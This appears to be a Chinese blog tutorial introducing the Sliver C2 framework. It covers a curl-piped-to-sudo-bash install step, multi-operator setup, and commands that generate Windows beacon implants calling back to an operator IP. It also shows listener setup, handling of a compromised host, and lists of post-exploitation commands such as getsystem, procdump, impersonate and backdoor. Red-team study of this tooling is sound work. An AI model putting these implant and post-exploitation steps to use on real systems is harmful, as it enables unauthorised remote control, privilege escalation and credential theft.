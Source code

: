 ```yaml
---
title: Sliver（一）：Sliver基础
tags: Tools
---
```


# 介绍

Sliver是一个开源的C2项目，用Golang开发。Sliver的操作与Metasploit的操作类似，但它支持多用户协同。与Cobalt Strike相比，它支持Macos、Windows、Linux客户端以及implant的生成，但它不具备GUI界面，官方提供了一个GUI项目，但是目前已经废弃。项目地址：https://github.com/BishopFox/sliver。

总体来说作为CS的开源替代品是非常好的选择，且二开相对简单，适合作为个人或团队的定制C2框架。

# 安装

在Linux服务器中执行 `curl https://sliver.sh/install|sudo bash` 即可完成安装，安装后主要会生成sliver-server、sliver-client和sliver三个可执行程序。

sliver-server在root目录下，是服务端程序，如果要实现多用户操作，必须启动此程序，后续新建用户等操作都需要在此程序下操作`sudo /root/sliver-server` 。

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108002.png)

用户端可以直接去github上下载对应架构的客户端https://github.com/BishopFox/sliver/releases。

sliver在终端模式下是具备自动补全功能的，因此可以多使用Tab。

# 多用户模式

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108864.png)

在Server端中新建用户：`new-operator --name client -l 198.19.249.24 -p 20000` 

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108139.png)

输入`multiplayer -l 20000` 启动指定端口的多用户模式。

将配置文件复制到client机器的~/.sliver-client/configs目录中，再启动sliver-client。

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108615.png)

# Beacons & Sessions

Sliver在远程控制上提供了Beacon模式和Session模式。

Session模式下，Sliver会和受控主机建立持续的连接，执行的命令会立刻返回结果，方便但容易被发现。

Beacon模式下，Sliver与Cobalt Strike一样，有休眠时间，执行的命令会排队，等待受控主机一定时间后执行并返回结果，相对较为隐蔽。

## implant生成

Sliver目前总共支持五种协议：mtls、http/s、dns、wireguard。

生成命令：

```jsx
generate beacon --arch amd64 --os windows --mtls 198.19.249.24:3306 --save ./test.exe 
```

如果想生成的是Session模式，去掉beacon即可。

生成时需要记住很多参数，为了方便，Sliver提供了Profiles来简化这个过程：

```jsx
profiles new --mtls 198.19.249.24:3306 --os windows --arch amd64 --format exe windows_default
```

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108039.png)

需要使用时执行`profiles generate --save ./test.exe  windows_default` 。

输出`implants`可以看到所有生成的implant：

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108276.png)

## 监听

开启监听只需要使用对应implant的协议名 -l 端口号即可

```jsx
mtls -l 3306
```

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108534.png)

使用jobs可以看到当前开启的监听任务：

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108189.png)

job1是sliver多用户模式下开启的grpc端口，用于多用户协同操作，job2就是刚刚开启的监听端口。

## 上线

在受控主机上点击木马后，server端和client端都会接到消息：

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108052.png)

输入`beacons`可以看到上线的beacon的信息：

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108892.png)

`use`命令可以进入该beacon，进入后可以执行`interactive` 转换出一个session，由于需要等待休眠时间，所以需要等待一会儿。

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108469.png)

转换完成后再执行`sessions` 可以看到相关信息：

![Untitled](https://raw.githubusercontent.com/Ryze-T/blog_picture/main/202404260108397.png)

`use`命令可以进入该session。

## 命令列表

```jsx
Sliver:
=======
  cat                查看文件
  cd                 切换目录
  chmod              修改文件或文件夹权限
  chown              修改文件或文件夹所属
  chtimes            修改文件的创建时间和修改时间
  close              不关闭进程的情况下关闭session
  download           下载文件
  execute            执行程序
  execute-shellcode  sliver进程里执行shellcode
  extensions         管理扩展
  getgid             获取 GID
  getpid             获取 session pid
  getuid             获取 session UID
  ifconfig           查看网络配置
  info               查看session信息
  interactive        beacon生成session
  kill               Kill session
  ls                 列出当前目录列表
  memfiles           列出当前 memfiles（unknown）
  mkdir              创建目录
  msf                在当前进程下执行 MSF payload
  msf-inject         往一个进程中注入 MSF payload
  mv                 文件移动或重命名
  netstat            输出网络连接信息
  ping               不使用ICMP，给木马发送回环消息
  pivots             给存活的session列出pivots（unknown）
  portfwd            TCP端口转发
  procdump           Dump进程内存
  ps                 列出进程列表
  pwd                打印当前目录
  reconfig           beacon/session恢复配置
  rename             给beacon/session重命名
  rm                 删除文件或目录
  rportfwd           反向端口转发
  screenshot         屏幕截图
  shell              开启shell
  shikata-ga-nai     二进制shellcode编码器
  sideload           在远程进程中加载和执行共享对象(共享库/DLL)
  socks5             socks5代理
  ssh                在远程主机上执行ssh命令
  terminate          在远程主机上关闭一个进程
  upload             上传文件
  whoami             获取当前用户
```

### Windows特定命令

```jsx
Sliver - Windows:
=================
  backdoor          使用shellcode感染一个远程的文件
  dllhijack         DLL劫持
  execute-assembly  在子进程中加载和执行.NET程序集
  getprivs          获取当前权限
  getsystem         获取一个NT AUTHORITY\SYSTEM的shell
  impersonate       模拟已登录的用户
  make-token        使用指定的凭据创建新的登录会话
  migrate           进程迁移
  psexec            在远程目标上启动一个sliver服务
  registry          操作windows注册表
  rev2self          Revert to self: lose stolen Windows token
  runas             在指定用户的上下文中运行一个新进程
  spawndll          在远程进程中加载和执行反射DLL
```